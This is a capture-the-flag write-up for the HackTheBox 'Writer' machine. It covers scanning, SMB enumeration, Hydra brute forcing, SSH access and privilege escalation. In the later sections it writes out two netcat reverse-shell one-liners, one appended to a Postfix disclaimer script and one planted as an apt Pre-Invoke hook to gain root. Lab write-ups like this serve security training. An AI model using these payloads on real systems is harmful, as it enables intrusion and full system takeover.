# HackTheBox(HTB) - Writer - WriteUp

> Austin Lai | November 19th, 2021

---

<!-- Description -->


Difficulty: Easy

The room is completed on November 17th, 2021

<!-- /Description -->

## Table of Contents

<!-- TOC -->

- [HackTheBoxHTB - Writer - WriteUp](#hacktheboxhtb---writer---writeup)
    - [Table of Contents](#table-of-contents)
    - [Let's Begin Here !!!](#lets-begin-here-)
        - [Network Reconnaissance](#network-reconnaissance)
        - [Web Fuzzing](#web-fuzzing)
        - [SMB Enumeration](#smb-enumeration)
        - [Login via SSH](#login-via-ssh)
        - [Privilege Escalation - Root](#privilege-escalation---root)

<!-- /TOC -->

---

## Let's Begin Here !!!

Start the instance and perform rustscan for network reconnaissance.

### Network Reconnaissance

Rustscan:

```bash
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
😵 https://admin.tryhackme.com
[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.11.101:22
Open 10.10.11.101:80
Open 10.10.11.101:139
Open 10.10.11.101:445
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
[~] Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-14 21:13 +08

PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
139/tcp open  netbios-ssn syn-ack ttl 62 Samba smbd 4.6.2
445/tcp open  netbios-ssn syn-ack ttl 62 Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Completed NSE at 21:14, 0.00s elapsed
Nmap done: 1 IP address (1 host up) scanned in 13.59 seconds
           Raw packets sent: 4 (176B) | Rcvd: 4 (176B)
```

### Web Fuzzing

Check on port 80 - HTTP.

StoryBank:


About page:


Notice there is an email given in the about page, and a domain as well.

We can add into our host file for easy access.

And we perform a web fuzzing through gobuster directories listing and it does not contain much information.

Gobuster:

```
http://10.10.11.101/about                (Status: 200) [Size: 3522]
http://10.10.11.101/contact              (Status: 200) [Size: 4905]
http://10.10.11.101/dashboard            (Status: 302) [Size: 208] [--> http://10.10.11.101/]
http://10.10.11.101/logout               (Status: 302) [Size: 208] [--> http://10.10.11.101/]
http://10.10.11.101/server-status        (Status: 403) [Size: 277]
http://10.10.11.101/static               (Status: 301) [Size: 313] [--> http://10.10.11.101/static/]
```

We have also tried nikto scan and gobuster vhost scan, nothing yield a positive result.

### SMB Enumeration

From the rustscan, we know there is smb service available.

We try to check on the service using ` smbclient `



If you check against smbmap, there is no anonymous access.

After GOOGLE awhile, there is an article regarding enumeration done via rpcclient for null sessions, you can check out [here](https://infinitelogins.com/2020/06/17/enumerating-smb-for-pentesting/)

First, let's test for null or authenticated session of smb:



That's a great start, we now login in !

Following the article, we can try enumerate user from the session using ` enumdomusers ` and ` queryuser ` command.



Since we only have a valid username, there is no other way to get the password, so might as well we go for hydra.

After a while, we are getting the password from hydra.



### Login via SSH

As we get the password for our valid user, we now ssh in to the system and get the user.txt

We check sudo and suid, but nothing positive come back.

Then, we go for very basic to check if other user or group available in the system.

From the ` /etc/passwd `, we know that there is another user exist in the system.

From ` id ` command, we know that current user belong to one of the group ` filter `.

We then check if any file or folder readable by current user that is belong to the ` filter ` group, and here what we found.



Checking the content of ` /etc/postfix/disclaimer `



From the ` disclaimer `, it is a shell script that to process email once user received an email.

We check if we have write permission, and we have !



Great, we can append payload into it, in our case, we append reverse shell into it.

Reverse shell payload:

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc YOUR_IP 9001 >/tmp/f" > /etc/postfix/disclaimer
```

However, the reverse shell did not work and we check the script again; it revert to default state.

As mentioned, the script will only run when a user receive an email.

So, we decided to write a [simple python send mail script](sendmail.py) with our current user.

```python
import smtplib

hostname = '127.0.0.1'
sender_email = 'REDACTED@writer.htb'
port = 25
receiver_email = 'REDACTED@writer.htb'
message = ' Send email to john '

try:
	server = smtplib.SMTP(hostname,port)
	server.ehlo()
	server.sendmail(sender_email, receiver_email, message)
except Exception as e:
	print(e)
finally:
	server.quit()
```

And voila, we have reverse shell.



We then check the user home directory and there is ssh key, we copy over and we now can ssh in using the ssh key.

### Privilege Escalation - Root

From here, we start off basic enumeration and nothing to be found.

Again, checking the ` id ` command, this time; the user belong to ` management ` group.



Once again, we check if any file or folder readable by current user that is belong to the ` management ` group, and here what we found.



Interesting, quick research will give you an article on [APT PrivEsc](https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/)

There is one specific section talk about ` /etc/apt/apt.conf.d `

The payload to PrivEsc:

```bash
cd /etc/apt/apt.conf.d

echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP 9001 >/tmp/f"};' > pwn
```

And here you go with root access of reverse shell.



<br />

---

> Do let me know any command or step can be improve or you have any question you can contact me via THM message or write down comment below or via FB

